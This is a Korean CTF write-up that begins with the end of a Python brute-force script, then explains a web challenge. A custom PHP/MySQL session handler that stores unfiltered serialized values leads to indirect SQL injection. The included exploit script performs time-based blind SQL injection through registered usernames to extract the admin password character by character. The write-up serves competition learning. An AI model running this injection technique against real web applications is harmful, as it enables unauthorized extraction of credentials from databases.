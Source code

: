 ```python
            exit(0)
        return

    for i in flags[len(cur)]:
        bfs(cur+[i])
start = time.time()
bfs(list("hctf{"))
```

### Web
#### fundamental
직접 코딩해준 mysql 기반의 세션 핸들러를 php session handler로 사용하고 있습니다. session write (값 입력) 시 serialization된 값이 db에 저장되게 되는데, $value에 대한 필터링 및 검증이 없기 때문에 session의 key-value를 지정하는 과정에서 session write함수가 호출되므로, in-direct하게 SQL Injection이 발생하게 됩니다. 

특별히 에러가 출력되거나, update문에서 취약점이 발생하기 때문에 값을 확인할 수 있는 방법이 없습니다. 따라서, Side channel attack을 해야하는데, 이 경우 time based sql injection이 가능합니다.

##### ex.py
```py
import requests
from binascii import hexlify
from os import urandom

HOST = "http://local.vuln.live:10000"
TIMEOUT = 1.5
FLAG = "HCTF{"
COOKIE = {"PHPSESSID":"sqrtrev"}

def gen_random_str(length):
    return hexlify(urandom(length)).decode()

def register(username, password):
    conn = requests.post(HOST+"/?mode=register", data={"username":username, "password":password}, cookies=COOKIE)

def login(username, password):
    conn = requests.post(HOST+"/?mode=login", data={"username":username, "password":password}, cookies=COOKIE)

def exp(password):
    global FLAG

    while True:
        if "}" in FLAG:
            break

        for i in range(32, 127):
            query = gen_random_str(4)
            query += f"' where if(ord(substr((select password from users where username='admin'),{len(FLAG) + 1},1))={i}, sleep({TIMEOUT}), 0)#"

            register(query, password)
            login(query, password)
            try:
                requests.post(HOST, cookies=COOKIE, timeout=TIMEOUT)
            except requests.exceptions.Timeout:
                FLAG += chr(i)
                print(FLAG)

if __name__ == "__main__":
    password = gen_random_str(4)
    exp(password)
```